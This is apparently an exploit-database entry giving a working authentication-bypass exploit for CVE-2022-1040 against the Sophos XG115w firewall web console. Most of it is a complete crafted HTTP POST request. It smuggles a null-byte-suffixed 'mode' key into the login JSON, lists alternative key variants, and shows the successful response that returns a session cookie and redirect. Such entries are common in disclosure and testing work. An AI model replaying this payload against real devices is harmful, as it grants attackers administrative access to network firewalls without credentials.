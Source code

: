 # Exploit Title: Sophos XG115w Firewall 17.0.10 MR-10 - Authentication Bypass
# Date: 2024-02-03
# Exploit Author: Danial Abbas
# Vendor Homepage: https://www.sophos.com
# Version: 17.0.10 MR-10
# Tested on: Windows 11
# CVE : CVE-2022-1040

# [ VULNERABILITY DETAILS ] : 

#This vulnerability allows an attacker to gain unauthorized access to the firewall management space by bypassing authentication.

# [ SAMPLE REQUEST ] :

POST /webconsole/Controller HTTP/1.1
Host: 127.0.0.1:4444
Cookie: JSESSIONID=c893loesu9tnlvkq53hy1jiq103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/plain, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Origin: https://127.0.0.1:4444
Referer: https://127.0.0.1:4444/webconsole/webpages/login.jsp
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 192

mode=151&json={"username"%3a"admin","password"%3a"somethingnotpassword","languageid"%3a"1","browser"%3a"Chrome_101","accessaction"%3a1,+"mode\u0000ef"%3a716}&__RequestType=ajax&t=1653896534066

# [ KEY MODE ] : \u0000eb ,\u0000fc , \u0000 ,\u0000ef ,...

# [ Successful response ] :

HTTP/1.1 200 OK
Date: Thu, 04 Aug 2022 17:06:39 GMT
Server: xxxx
X-Frame-Options: SAMEORIGIN
Strict-Transport-Security: max-age=31536000
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Content-Type: text/plain;charset=utf-8
Content-Length: 53
Set-Cookie: JSESSIONID=1jy5ygk6w0mfu1mxbv6n30ptal108;Path=/webconsole;Secure;HttpOnly
Connection: close

{"redirectionURL":"/webpages/index.jsp","status":200}
